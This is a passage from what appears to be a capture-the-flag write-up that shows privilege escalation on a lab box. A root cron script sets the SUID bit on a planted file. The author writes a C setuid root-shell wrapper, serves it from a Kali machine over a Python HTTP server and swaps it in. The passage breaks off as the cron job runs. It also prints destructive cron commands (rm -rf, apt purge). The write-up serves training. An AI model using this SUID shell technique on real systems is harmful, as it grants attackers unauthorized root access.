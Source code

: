 The files' owner is the root. Therefore I searched if this executable is called from some other programs and I found numpties.sh. If we open it, we can see that a crontab will add the SUID bit to semaphore if the file exists:

```plaintext
proclaimers@teuchter:/$ grep -R "semaphore" /usr/local 2>/dev/null
grep -R "semaphore" /usr/local 2>/dev/null
/usr/local/bin/numpties.sh:## Plant a semaphore in to alert the monitoring system
/usr/local/bin/numpties.sh:if /usr/bin/[ -f /home/proclaimers/letterfromamerica/semaphore ]
/usr/local/bin/numpties.sh:    /bin/chown root.root /home/proclaimers/letterfromamerica/semaphore
/usr/local/bin/numpties.sh:    /bin/chmod 4755 /home/proclaimers/letterfromamerica/semaphore
proclaimers@teuchter:/$ cat /usr/local/bin/numpties.sh
cat /usr/local/bin/numpties.sh
#!/bin/sh

## Right, time to sort out these numpties that put PHP shells on ma server!

## Steal a copy to examine later
/bin/tar czvf /root/shells.tgz /var/www/html/*.php

## Aww they dobbers with primative Egpytian Encryption can away and raffle themselves
sudo apt-get -y purge openssh-server sftp wget 

## Delete the shells to annoy the eejits
/bin/rm -rf /var/www/html/*.php

## Plant a semaphore in to alert the monitoring system
if /usr/bin/[ -f /home/proclaimers/letterfromamerica/semaphore ]
  then
    /bin/chown root.root /home/proclaimers/letterfromamerica/semaphore
    /bin/chmod 4755 /home/proclaimers/letterfromamerica/semaphore
fi
```

So I created a C script and I compiled it in local: 

```plaintext
#include <unistd.h>
#include <errno.h>
main( int argc, char ** argv, char ** envp )
{
              if( setgid(getegid()) ) perror( "setgid" );
              if( setuid(geteuid()) ) perror( "setuid" );
              envp = 0; /* blocks IFS attack on non-bash shells */
              system( "/bin/bash", argv, envp );
              perror( argv[0] );
              return errno;
}
```
I started a local python server on port 80:

```plaintext
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
 and then I replaced it. I waited around 2 minutes before the cron job started and then it changed the SUID:
